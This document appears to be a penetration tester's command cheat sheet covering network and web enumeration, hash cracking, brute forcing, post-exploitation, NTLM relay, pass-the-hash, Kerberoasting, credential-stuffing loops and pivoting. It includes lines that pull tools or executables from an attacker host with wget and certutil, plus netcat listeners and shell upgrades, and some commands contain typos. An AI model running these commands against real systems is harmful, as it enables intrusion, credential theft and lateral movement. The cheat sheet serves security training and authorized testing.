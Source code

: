 ## General

rm -rf /path/to/directory

## Enumeration  

ip a  

arp-scan -l

showmount -e [server ip]

mount -t nfs [server ip]:[remote path shown from showmount] [to local mount point]

nmap -sV -A -T4 -p- 

nmap -sV -A -T4 --top-ports 500 [target]

nmap --sC ? 

nmap -p- --script vuln [target]

nmap --top-ports 500 --script vuln [target]

(Example when providing a txt based file to scan -iL 'inlist' must be used)  
nmap -p 445 -iL targets.txt

gobuster dir -u http://[IPaddress] -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --no-error -v | grep "Status: 200"

gobuster dir -u http://[IPaddress] -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --no-error

assetfinder example.com

assetfinder --subs-only example.com

(directory hunting) ffuf -u http://localhost/capstone/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e .php -v | grep FUZZ 

python -V 

## Web Enumeration

Curl -I http://[target]

nikto -h http://[IPaddress:8080]

## DNS enumeration (workflow)

dig -x [IP]

nslookup [IP]

dnsrecon -r [IP range/24]

dnsrecon -r [target IP range/24 it belongs to] -n [targetIP]

## Cracking
Zip files: fcrackzip -v -u -D -p /usr/share/wordlists/rockyou.txt [target.zip]

NTLM# hash: hashcat -m 5600 file.txt /usr/share/wordlists/rockyou.txt --force

    ntlm# will dictate the specific module -m required to be set for the cracking.  
    in virtual machine intances --force may be required.  
    if a password has already been cracked it may reside in the potfile on --show

hash-identifier

## Brute forcing
Hydra

nmap -p 22 --script ssh-brute --script-args="userdb=/path/to/username_wordlist.txt,passdb=/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt" 192.168.64.137


## Linux Post Exploitation
history

pwd

sudo -l

crontab -l

##Linux wget and curl command

wget http://192.168.64.137:8000/linpeas.sh -O linpeas.sh

🔼 Upgrading to an interactive shell using python  
python -c 'import pty; pty.spawn("/bin/bash")'

## Windows Post Exploitation
cd

whoami

ipconfig

dir

sc stop [application]

sc start [application]

sc query [application]

certutil.exe -urlcache -f http://[attackerip]:8000/[application.exe] [applicationname.exe]

## Listener
nc -nlvp [port]

## Directory hosting
python2 - python -m SimpleHTTPServer

python3 - python3 -m http.server 8080

## Active Directory Attacks  

sudo responder -I tun0 -dwP | tun0 here is used when we are getting access via VPN

(Captures) LLMNR attacks  
sudo responder -I eth0 -dwv  

(Relays) SMB attack  
sudo responder -I eth0 -dPv  

(Relay authentication into targets | -i interacive shell | -c command execution)  
Impacket-ntlmrelax -tf targets.txt -smb2support -i 

(PtH with crackmapexec)  
crackmapexec smb 10.10.10.0/24 -u username -H aad3b435b51404eeaad3b435b51404ee:31dcfce0d16ae931b73c59d7e0c089c0  

(PtP with crackmapexec)  
crackmapexec smb 10.10.10.0/24 -u username -p 'password'  

(Enumerate service principile names with their krbtgs (kerberos ticket granting service hash) - useful in AD envs when SPN objects are not set to read only.  
Impacket-GetUserSPNs -dc-ip <10.10.10.0> domain/username:password -request  

**Identify hosts without SMB signing:** nmap --script=smb2-security-mode.nse -p445 10.0.0.0/24 -Pn  
In the event initial scanning of a known target presents no results adding -Pn will still scan the target and provide information regardless. 
  
## Bash; 'for' loops  

for in X variable varibale varibale; do COMMAND_LINE_ACTION $X; done  

(Example IP scan without text file list - ideal for small list, any large lists just use a .txt file)  
for ip in 10.10.10.1 10.10.10.2 10.10.10.3; do nmap -T4 -sV -A --top-ports 500 $ip; done  

(Example crackmap SMB enumeration - ideal for small list, any large lists just use a .txt file for username and passwords)  
for ip in 10.10.10.1 10.10.10.2 10.10.10.3; do crackmapexec smb $ip -u username -p 'password'; done  

(Example crackmap SMB credential 'sniper' stuffing password - small list)  
for ip in 10.10.10.1 10.10.10.2 10.10.10.3; do for in user Admin Administrator Username; do crackmapexec smb $ip -u $user -p password --local-auth; done; done  

(Example using .txt files within 'for' loops of crackmap SMB auth) - note: when using files for crackmapexec -P must be used instead of -p  
for user in Admin Administrator Username; do crackmapexec smb 10.10.10.1 -u $user -P passwordfile.txt --local-auth; done  

## RDP  

xfreerdp - xfreerdp /u:Administrator /p:'Password' /v:10.10.10.1

## Pivoting  

proxychains  

shuttle  

chisell  


